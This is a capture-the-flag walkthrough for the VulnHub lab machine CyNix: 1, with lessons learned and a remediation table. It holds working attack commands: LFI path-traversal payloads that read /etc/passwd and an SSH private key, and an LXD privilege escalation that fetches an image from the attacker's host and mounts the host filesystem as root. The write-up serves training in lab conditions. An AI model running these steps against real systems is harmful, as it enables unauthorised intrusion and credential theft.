




# CyNix: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.105 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Flags** | user.txt + root flag |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/cynix-1,394/) |

## Attack Summary

nmap → DirBuster `/lavalamp` → hidden form → LFI (`file=`) → `/etc/passwd` + SSH `id_rsa` → SSH as `ford` (lxd group) → LXD Alpine container with host mount → root

## Methodology

1. Network discovery
2. Web enumeration — DirBuster on port 80
3. Hidden form in `/lavalamp/canyoubypassme.php`
4. LFI via `file=` parameter — read `/etc/passwd` and SSH key
5. SSH as `ford` using extracted private key
6. LXD privilege escalation via Alpine container

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
```

Then full port scan:

```bash
nmap -p- -A 192.168.1.105
```

Key findings:
- Port 80: HTTP (Apache default page)
- Port 6688: SSH (non-standard port)



---

## Step 2: Web Enumeration

The default Apache page is shown on port 80. Run DirBuster:

```bash
dirb http://192.168.1.105 /usr/share/wordlists/dirb/common.txt
```

Discovered: `/lavalamp/` directory. Browsing to it shows a page with a contact form that POSTs to `/lavalamp/canyoubypassme.php`.

---

## Step 3: Bypass Hidden Form

The form is styled with `opacity: 0` to hide it. In browser DevTools change opacity to `1` or intercept with Burp Suite. The form sends a parameter `file=1`.

Test for LFI by changing `file=` to a path traversal:

```
POST /lavalamp/canyoubypassme.php
file=../../../etc/passwd
```

---

## Step 4: LFI — Extract `/etc/passwd` and SSH Key

Confirm LFI with `/etc/passwd`:

```
file=../../../etc/passwd
```

Users `ford` and `lxd` are visible.



Extract SSH private key:

```
file=../../../home/ford/.ssh/id_rsa
```


Copy the key content to a file and set permissions:

```bash
vim ford_id_rsa   # paste the key
chmod 600 ford_id_rsa
```

---

## Step 5: SSH Login as ford

```bash
ssh -i ford_id_rsa -p 6688 ford@192.168.1.105
```

```bash
id
# uid=1000(ford) gid=1000(ford) groups=1000(ford),108(lxd)
cat user.txt
```

The `lxd` group membership enables container-based privilege escalation.



---

## Step 6: LXD Privilege Escalation

On the attacker machine, build an Alpine container image:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
python3 -m http.server 8000
```

On the target machine:

```bash
cd /tmp
wget http://192.168.1.107:8000/alpine-v3.10-x86_64-20191008_1227.tar.gz
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Inside the container:

```bash
id
# uid=0(root) gid=0(root)
cd /mnt/root/root
cat flag.txt
```



---

## Lessons Learned

1. **LFI via hidden form parameter** — opacity CSS hiding is client-side only; Burp Suite bypasses it trivially
2. **SSH private key extraction via LFI** — if `~/.ssh/id_rsa` is readable, LFI leads directly to shell access
3. **LXD group = root** — any user in the `lxd` group can mount the host filesystem inside a privileged container

## Remediation

| Vulnerability | Fix |
|---|---|
| LFI in `file=` parameter | Whitelist allowed values; never pass user input to file-read functions |
| Hidden form via CSS | Security must be enforced server-side, never client-side |
| LXD group membership | Remove unprivileged users from the `lxd` group |
| SSH key in home directory | Use key passphrase + restrict `~/.ssh/` to mode 700 |
